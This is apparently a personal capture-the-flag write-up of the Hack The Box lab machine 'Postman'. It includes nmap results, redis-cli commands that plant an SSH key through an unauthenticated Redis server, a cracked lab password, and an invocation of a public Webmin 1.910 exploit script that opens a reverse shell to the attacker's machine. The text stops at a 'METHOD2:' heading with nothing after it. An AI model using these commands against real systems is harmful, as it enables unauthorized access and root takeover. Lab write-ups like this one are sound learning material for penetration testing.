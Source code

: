 #nmap 
```Nmap scan report for 10.10.10.160
Host is up, received user-set (0.33s latency).
Scanned at 2021-08-22 22:45:34 IST for 39s

PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDem1MnCQG+yciWyLak5YeSzxh4HxjCgxKVfNc1LN+vE1OecEx+cu0bTD5xdQJmyKEkpZ+AVjhQo/esF09a94eMNKcp+bhK1g3wqzLyr6kwE0wTncuKD2bA9LCKOcM6W5GpHKUywB5A/TMPJ7UXeygHseFUZEa+yAYlhFKTt6QTmkLs64sqCna+D/cvtKaB4O9C+DNv5/W66caIaS/B/lPeqLiRoX1ad/GMacLFzqCwgaYeZ9YBnwIstsDcvK9+kCaUE7g2vdQ7JtnX0+kVlIXRi0WXta+BhWuGFWtOV0NYM9IDRkGjSXA4qOyUOBklwvienPt1x2jBrjV8v3p78Tzz
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIRgCn2sRihplwq7a2XuFsHzC9hW+qA/QsZif9QKAEBiUK6jv/B+UxDiPJiQp3KZ3tX6Arff/FC0NXK27c3EppI=
|   256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIF3FKsLVdJ5BN8bLpf80Gw89+4wUslxhI3wYfnS+53Xd
80/tcp    open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: E234E3E8040EFB1ACD7028330A956EBF
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   syn-ack Redis key-value store 4.0.9
10000/tcp open  http    syn-ack MiniServ 1.910 (Webmin httpd)
|_http-favicon: Unknown favicon MD5: 91549383E709F4F1DD6C8DAB07890301
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: MiniServ/1.910
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
#enumeration 
PORT 80:got some random /uploads/,/fonts,/css all were of no use
PORT 10000: had a webadmin login page tried default creds but was unsuccessful
Port 6379(Redis):read about it from hacktricks 
https://book.hacktricks.xyz/pentesting/6379-pentesting-redis
tried few things with the webadmin portal and then tried the redis port
In that what was really good and feasible(as we had permission in the current redis dir /var/lib/redis) was the ssh rce where we genrate a id-rsa and 
then upload it to get access to user redis
```
┌──(root💀kali)-[~archi/Documents/OSCP/postman]
└─# ssh-keygen -t rsa                                                                             143 ⨯
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): /home/archi/Documents/OSCP/postman/id_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/archi/Documents/OSCP/postman/id_rsa
Your public key has been saved in /home/archi/Documents/OSCP/postman/id_rsa.pub
The key fingerprint is:
SHA256:QYGO8eHIkZWkbRljSEID8cqVYhoNmJ0sGkVvNDFACmg root@kali
The key's randomart image is:
+---[RSA 3072]----+
|B@O+***oo.       |
|BE+=**+=         |
|==o++O+..        |
|=oo.+.+  .       |
|o.      S        |
|                 |
|                 |
|                 |
|                 |
+----[SHA256]-----+
                                                                                                        
┌──(root💀kali)-[~archi/Documents/OSCP/postman]
└─# ls
id_rsa  id_rsa.pub
                                                                                                        
┌──(root💀kali)-[~archi/Documents/OSCP/postman]
└─# (echo -e "\n\n"; cat ./id_rsa.pub; echo -e "\n\n") > foo.txt 
                                                                                                        
┌──(root💀kali)-[~archi/Documents/OSCP/postman]
└─# ls
foo.txt  id_rsa  id_rsa.pub
                                                                                                        
┌──(root💀kali)-[~archi/Documents/OSCP/postman]
└─# cat foo.txt | redis-cli -h 10.10.10.160 -x set crackit    
OK
                                                                                                        
┌──(root💀kali)-[~archi/Documents/OSCP/postman]
└─# ssh -i id_rsa redis@10.10.10.160 
```
In redis port(first I created a dir with .ssh ):
```
┌──(root💀kali)-[/home/archi/Documents/OSCP/postman]
└─# redis-cli -h 10.10.10.160
10.10.10.160:6379> config get dir
1) "dir"
2) "/var/lib/redis/.ssh"
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
10.10.10.160:6379> 
```
Now I ssh into the box
there I found a ssh encrypted key in /opt.cracking it with john I got a passoword
```computer2008```
tried to ssh to matt with the key and password didn't work then tried to su Matt and we were successful
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C
JehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghfQnX
cwGJJUD9kKJniJkJzrvF1WepvMNkj9ZItXQzYN8wbjlrku1bJq5xnJX9EUb5I7k2
7GsTwsMvKzXkkfEZQaXK/T50s3I4Cdcfbr1dXIyabXLLpZOiZEKvr4+KySjp4ou6
cdnCWhzkA/TwJpXG1WeOmMvtCZW1HCButYsNP6BDf78bQGmmlirqRmXfLB92JhT9
1u8JzHCJ1zZMG5vaUtvon0qgPx7xeIUO6LAFTozrN9MGWEqBEJ5zMVrrt3TGVkcv
EyvlWwks7R/gjxHyUwT+a5LCGGSjVD85LxYutgWxOUKbtWGBbU8yi7YsXlKCwwHP
UH7OfQz03VWy+K0aa8Qs+Eyw6X3wbWnue03ng/sLJnJ729zb3kuym8r+hU+9v6VY
Sj+QnjVTYjDfnT22jJBUHTV2yrKeAz6CXdFT+xIhxEAiv0m1ZkkyQkWpUiCzyuYK
t+MStwWtSt0VJ4U1Na2G3xGPjmrkmjwXvudKC0YN/OBoPPOTaBVD9i6fsoZ6pwnS
5Mi8BzrBhdO0wHaDcTYPc3B00CwqAV5MXmkAk2zKL0W2tdVYksKwxKCwGmWlpdke
P2JGlp9LWEerMfolbjTSOU5mDePfMQ3fwCO6MPBiqzrrFcPNJr7/McQECb5sf+O6
jKE3Jfn0UVE2QVdVK3oEL6DyaBf/W2d/3T7q10Ud7K+4Kd36gxMBf33Ea6+qx3Ge
SbJIhksw5TKhd505AiUH2Tn89qNGecVJEbjKeJ/vFZC5YIsQ+9sl89TmJHL74Y3i
l3YXDEsQjhZHxX5X/RU02D+AF07p3BSRjhD30cjj0uuWkKowpoo0Y0eblgmd7o2X
0VIWrskPK4I7IH5gbkrxVGb/9g/W2ua1C3Nncv3MNcf0nlI117BS/QwNtuTozG8p
S9k3li+rYr6f3ma/ULsUnKiZls8SpU+RsaosLGKZ6p2oIe8oRSmlOCsY0ICq7eRR
hkuzUuH9z/mBo2tQWh8qvToCSEjg8yNO9z8+LdoN1wQWMPaVwRBjIyxCPHFTJ3u+
Zxy0tIPwjCZvxUfYn/K4FVHavvA+b9lopnUCEAERpwIv8+tYofwGVpLVC0DrN58V
XTfB2X9sL1oB3hO4mJF0Z3yJ2KZEdYwHGuqNTFagN0gBcyNI2wsxZNzIK26vPrOD
b6Bc9UdiWCZqMKUx4aMTLhG5ROjgQGytWf/q7MGrO3cF25k1PEWNyZMqY4WYsZXi
WhQFHkFOINwVEOtHakZ/ToYaUQNtRT6pZyHgvjT0mTo0t3jUERsppj1pwbggCGmh
KTkmhK+MTaoy89Cg0Xw2J18Dm0o78p6UNrkSue1CsWjEfEIF3NAMEU2o+Ngq92Hm
npAFRetvwQ7xukk0rbb6mvF8gSqLQg7WpbZFytgS05TpPZPM0h8tRE8YRdJheWrQ
VcNyZH8OHYqES4g2UF62KpttqSwLiiF4utHq+/h5CQwsF+JRg88bnxh2z2BD6i5W
X+hK5HPpp6QnjZ8A5ERuUEGaZBEUvGJtPGHjZyLpkytMhTjaOrRNYw==
-----END RSA PRIVATE KEY-----
```
#rootescalation 
ran linpeas but got nothing except for webmin.there were no suid,no ports for port forwarding.Then, realised we had got a port as webmin.Searching google we also got exploits for that.In the README file we got the version ```Webmin Version 1.910```
Now after searching and reading htb forums I got a hint that webmin is related to user
so tried ```Matt:computer2008```
and we are in.
I found a script in github
link:https://github.com/roughiz/Webmin-1.910-Exploit-Script
ran it and got the root
```python2 exploit.py --rhost postman.htb --rport 10000 -u Matt -p computer2008 -s true --lhost 10.10.14.88 --lport 1234```
METHOD2:
